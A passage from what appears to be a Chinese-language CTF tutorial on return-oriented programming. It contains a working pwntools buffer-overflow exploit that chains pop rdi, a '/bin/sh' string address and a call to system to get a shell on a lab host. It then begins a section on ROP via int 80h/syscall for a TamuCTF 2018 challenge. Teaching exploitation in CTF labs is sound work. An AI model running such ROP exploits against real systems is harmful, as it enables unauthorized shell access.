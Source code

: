 ```python
    #!/usr/bin/python
    #coding:utf-8

    from pwn import *

    context.update(arch = 'amd64', os = 'linux', timeout = 1)
    io = remote('172.17.0.3', 10001)

    call_system = 0x40075f
    binsh = 0x4003ef
    pop_rdi = 0x400883

    payload = ""
    payload += "A"*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    # payload内容是在栈上的，“A”溢出到retn时，执行pop rdi，即将栈顶的数据放到rdi中，因为此时执行的时pop rdi，所以栈顶的内容为binsh，即“sh”，这样，就把“sh”写入到rdi作为system函数的参数了
    payload += p64(call_system)

    io.sendline(payload)
    io.interactive()

```

### 使用ROP调用int 80h/syscall

很多情况下目标程序并不会导入system函数。在这种情况下我们就需要通过其他方法达到目标。需要通过其他方式来获取shell，本部分是通过ROP调用`int 80h/syscall`来拿到shell。将`~/Tamu CTF 2018-pwn5/pwn5`部署到32位的环境中。
这个程序主要功能在`print_beginning()`实现。

![Alt](img/ROP技术30.png)
![Alt](img/ROP技术31.png)
